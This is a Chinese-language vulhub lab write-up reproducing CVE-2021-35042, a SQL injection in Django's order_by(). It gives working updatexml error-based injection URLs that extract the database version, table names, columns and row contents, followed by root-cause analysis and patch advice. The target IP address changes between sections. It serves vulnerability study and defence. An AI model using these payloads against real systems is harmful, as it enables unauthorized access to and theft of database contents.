## vulhub CVE-2021-35042 漏洞复现笔记

### 一、漏洞基础信息

#### 1.1 漏洞简介

CVE-2021-35042 是 Django 框架中的一个高危 SQL 注入漏洞，该漏洞源于 QuerySet.order_by() 方法对用户提供输入的过滤不充分，攻击者可在未授权情况下构造恶意数据，执行 SQL 注入攻击，最终导致服务器敏感信息泄露（如数据库版本、根目录、数据表内容等）。

Django 是一款基于 Python 开发的开源 Web 应用框架，采用 MVC 架构模式，广泛用于各类 Web 应用开发，因此该漏洞影响范围较广。

#### 1.2 影响版本

- Django < 3.2.5
- Django < 3.1.13

#### 1.3 安全版本

- Django ≥ 3.2.5
- Django ≥ 3.1.13

#### 1.4 漏洞风险等级

高危（CVSS 评分未明确公开，但可远程未授权利用，导致敏感信息泄露，危害较大）

### 二、复现环境准备

#### 2.1 环境要求

- 操作系统：Ubuntu 20.04 LTS（推荐，也可使用 CentOS、Kali 等 Linux 系统，Windows 系统需配合 WSL）
- 工具依赖：Docker、Docker-Compose（用于快速搭建 vulhub 靶场环境）
- 网络要求：靶机与攻击机（本地浏览器即可）网络互通，靶机开放 8000 端口（漏洞环境默认端口）
- 攻击工具：浏览器（用于构造恶意请求）、终端（用于执行 Docker 命令）

#### 2.2 环境搭建步骤

##### 2.2.1 安装 Docker

在 Ubuntu 系统中执行以下命令安装 Docker：

```bash
# 更新软件源列表
apt-get update
# 安装 https 协议及 CA 证书（用于获取 Docker 官方源）
apt-get install -y apt-transport-https ca-certificates
# 安装 Docker
apt install docker.io
# 验证 Docker 是否安装成功（出现 Hello from Docker! 即为成功）
docker run hello-world
```

##### 2.2.2 安装 Docker-Compose

Docker-Compose 用于编排 vulhub 漏洞环境，执行以下命令安装：

```bash
# 安装 pip3（用于安装 Docker-Compose）
apt-get install python3-pip
# 安装 Docker-Compose
pip3 install docker-compose
# 验证安装（显示版本号即为成功）
docker-compose -v
```

##### 2.2.3 下载 vulhub 靶场并启动漏洞环境

vulhub 已打包好 CVE-2021-35042 漏洞环境，直接下载并启动即可：

```bash
# 克隆 vulhub 仓库（若网络较差，可直接下载压缩包解压）
git clone https://github.com/vulhub/vulhub.git
# 进入 CVE-2021-35042 漏洞目录
cd vulhub/django/CVE-2021-35042
# 构建并启动漏洞环境（首次启动会下载镜像，耗时稍长）
docker-compose build
docker-compose up -d
# 查看环境启动状态（确保容器正常运行）
docker ps
```



启动成功后，容器会监听 8000 端口，可通过 `netstat -tulnp | grep 8000` 命令验证端口是否开放。



### 三、漏洞复现步骤（详细可复现）

复现核心：利用 QuerySet.order_by() 方法的输入过滤缺陷，构造恶意 GET 请求，通过报错注入获取敏感信息，全程无需授权。

#### 3.1 访问漏洞页面

1. 确定靶机 IP（假设靶机 IP 为 192.168.101.136，可通过 `ip addr` 命令查看）；

2. 打开本地浏览器，访问漏洞测试页面：`http://192.168.111.137:8000/vuln/`；

3. 页面会显示默认的数据列表（包含 id、name 字段），说明环境正常。

   

   

#### 3.2 验证漏洞存在（判断 order_by 可控性）

1. 在访问地址后添加 GET 参数 `?order=-id`，完整地址为：`http://192.168.111.137:8000/vuln/?order=-id`；

2. 观察页面数据排序变化：原本按 id 升序排列的数据，会变为按 id 降序排列；

3. 该现象说明 order 参数被传入 QuerySet.order_by() 方法，且用户输入可控，漏洞存在可利用条件。

   

#### 3.3 构造报错注入，获取敏感信息

本漏洞采用 updatexml 报错注入方式，核心原理是：构造恶意 SQL 语句拼接至 order 参数，利用 updatexml 函数的格式错误，触发报错并回显敏感信息。其中 0x7e 是 ASCII 码对应的 `~` 符号，用于区分报错信息与无关内容，避免信息丢失。

##### 3.3.1 获取数据库版本信息

构造请求地址，拼接注入语句：

```url
http://192.168.101.136:8000/vuln/?order=vuln_collection.name);select%20updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)%23
```

说明：

- `vuln_collection` 是漏洞环境中预设的数据表（vuln 为应用名，collection 为模型名）；
- `);` 用于闭合原有 SQL 语句；
- `%23` 是 URL 编码后的 `#`，用于注释后续无关 SQL 语句；
- 访问后，页面会报错并回显数据库版本。
- 

##### 3.3.2 获取当前数据库名称

构造请求地址：

```url
http://192.168.101.136:8000/vuln/?order=vuln_collection.name);select%20updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)%23
```

访问后，报错信息会显示当前数据库名称（默认为 cve）。



##### 3.3.3 获取数据库根目录

构造请求地址：

```url
http://192.168.101.136:8000/vuln/?order=vuln_collection.name);select%20updatexml(1,concat(0x7e,(select @@basedir)),1)%23
```

访问后，报错信息会显示数据库根目录（如 /usr/）。



##### 3.3.4 获取数据表名称

构造请求地址（利用 make_set 函数拼接多个表名，避免报错信息长度限制）：

```url
http://192.168.101.136:8000/vuln/?order=vuln_collection.name);select%20updatexml(1,make_set(3,%27~%27,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database())),1)%23
```

访问后，会回显当前数据库下的所有数据表（如 django_migrations、vuln_collection 等）。



##### 3.3.5 获取数据表字段信息

以 django_migrations 表为例，构造请求地址：

```url
http://192.168.101.136:8000/vuln/?order=vuln_collection.name);select%20updatexml(1,make_set(3,'~',(select group_concat(column_name) from information_schema.columns where table_name="django_migrations")),1)%23
```

访问后，会回显 django_migrations 表的所有字段（如 id、app、name、applied 等）。



##### 3.3.6 获取数据表内容

构造请求地址，查询 django_migrations 表的具体内容：

```url
http://192.168.101.136:8000/vuln/?order=vuln_collection.name);select%20updatexml(1,concat(0x7e,(SELECT distinct concat(0x23,id,0x3a,app,0x23,name,0x23,applied,0x23) FROM django_migrations),0x7e),1)%23
```

访问后，报错信息会回显数据表中的具体数据（如 id、app 名称、迁移文件名等）。



#### 

### 四、漏洞原理深度分析

#### 4.1 核心原因

Django 的 QuerySet.order_by() 方法用于对数据库查询结果进行排序，该方法会接收用户传入的排序参数（如 id、name 等），并将其拼接至 SQL 语句中。但该方法对用户输入的过滤不充分，当用户输入包含特殊字符（如 `.`、`;` 等）时，会绕过原有验证逻辑，导致恶意 SQL 语句被执行。

#### 4.2 关键代码分析

QuerySet.order_by() 方法的核心处理逻辑在 add_ordering() 函数中，该函数会对用户输入的排序参数进行一系列判断（如是否包含 `.`、是否为 `?`、是否以 `-` 开头等）：

```python
def add_ordering(self, *ordering):
    """Add items from the 'ordering' sequence to the query's "order by" clause."""
    errors = ()
    for item in ordering:
        if isinstance(item, str):
            if '.' in item:
                warnings.warn(
                    'Passing column raw column aliases to order_by() is deprecated.',
                    category=RemovedInDjango40Warning,
                    stacklevel=3,
                )
                continue  # 关键：包含"."的参数会被跳过验证，直接拼接至SQL语句
            # 其他验证逻辑（省略）
    # 后续SQL语句拼接逻辑（省略）
```

当用户输入的参数包含 `.`（如 `id.`）时，代码会触发警告并跳过后续验证，直接将该参数拼接至 SQL 语句中，导致 SQL 注入漏洞。例如，传入 `id.` 会生成如下 SQL 语句，造成语法错误，为报错注入提供条件：

```sql
SELECT "vuln_collection"."id", "vuln_collection"."name" FROM "vuln_collection" ORDER BY ("id".) ASC
```

#### 4.3 漏洞利用条件

- 目标系统使用受影响版本的 Django 框架；
- Web 应用中使用了 QuerySet.order_by() 方法，且排序参数由用户可控（如通过 GET/POST 参数传入）；
- 目标系统未对用户传入的排序参数进行额外过滤或转义。

### 五、漏洞修复建议

#### 5.1 官方修复方案（首选）

将 Django 框架升级至安全版本，具体如下：

- 若使用 Django 3.2.x 版本，升级至 3.2.5 及以上；
- 若使用 Django 3.1.x 版本，升级至 3.1.13 及以上；
- 升级前建议做好数据备份，避免升级过程中出现数据丢失或业务异常。

#### 5.2 临时修复方案（无法立即升级时）

- 对用户传入的 order_by() 排序参数进行严格过滤，只允许预设的合法字段（如 id、name 等），拒绝包含特殊字符（如 `.`、`;`、`'`、`"` 等）的参数；
- 使用 Django 提供的参数化查询方式，避免直接将用户输入拼接至 SQL 语句中；
- 限制 Web 应用的数据库访问权限，避免数据库账户拥有过高权限（如 root 权限），降低漏洞利用后的危害。

### 七、复现总结

CVE-2021-35042 漏洞的核心是 Django QuerySet.order_by() 方法的输入过滤缺陷，属于典型的 SQL 注入漏洞，利用难度较低，可远程未授权获取敏感信息。本次复现通过 vulhub 快速搭建环境，利用报错注入方式成功获取了数据库版本、根目录、数据表及内容等敏感信息，验证了漏洞的危害性。

修复该漏洞的关键是及时升级 Django 框架至安全版本，同时加强用户输入验证，规范数据库访问权限，从源头避免漏洞被利用。通过本次复现，可深入理解 SQL 注入漏洞的原理及利用方式，提升 Web 应用安全防护意识。